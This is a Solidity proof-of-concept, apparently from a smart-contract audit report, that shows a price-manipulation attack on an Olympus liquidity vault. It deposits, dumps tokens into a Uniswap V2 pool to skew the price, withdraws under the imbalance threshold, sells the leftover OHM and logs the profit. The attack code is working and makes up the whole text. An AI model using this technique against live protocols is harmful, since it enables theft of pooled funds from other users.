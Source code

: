 ```solidity
    OlympusERC20Token ohm;
    OlympusERC20Token pairToken;

    IUniswapV2Pool pool;
    IUniswapV2Factory factory =
        IUniswapV2Factory(0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f);
    IUniswapV2Router router =
        IUniswapV2Router(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);

    uint256 DEPOSIT = 50_000 ether;
    uint256 DUMP = 450 ether;
    uint256 THRESHOLD = 10;

    function main() internal {
        // Main Poc. Executes after setup is complete.

        // Assert that we do not have any tokens left from
        // the setup process which would yield wrong results.
        assert(ohm.balanceOf(address(this)) == 0);
        assert(pairToken.balanceOf(address(this)) == 0);

        // Deposit into the SSLV
        deal(address(pairToken), address(this), DEPOSIT);
        uint256 lp = sslv.deposit(DEPOSIT);

        // Manipulate the pool price by selling the paired token
        deal(address(pairToken), address(this), DUMP);
        address[] memory path = new address[](2);
        path[0] = address(pairToken);
        path[1] = address(ohm);
        router.swapExactTokensForTokens(
            DUMP,
            0,
            path,
            address(this),
            block.timestamp + 1
        );

        // Withdraw from the SSLV.
        // Checks that the pool is not imbalanced.
        // Since we did not imbalance it too much, this check passes.
        sslv.withdraw(lp);

        // Sell the remaining OHM we still have left from the first swap.
        path[0] = address(ohm);
        path[1] = address(pairToken);
        router.swapExactTokensForTokens(
            ohm.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp + 1
        );

        // Calculate profit or loss
        uint256 finalBalance = pairToken.balanceOf(address(this));
        if (DEPOSIT + DUMP < finalBalance) {
            console.log("Made a profit (in tokens, not wei):");
            console.log((finalBalance - DEPOSIT - DUMP) / 1 ether);
        } else {
            console.log("Made a loss (in tokens, not wei):");
            console.log((DEPOSIT + DUMP - finalBalance) / 1 ether);
        }
```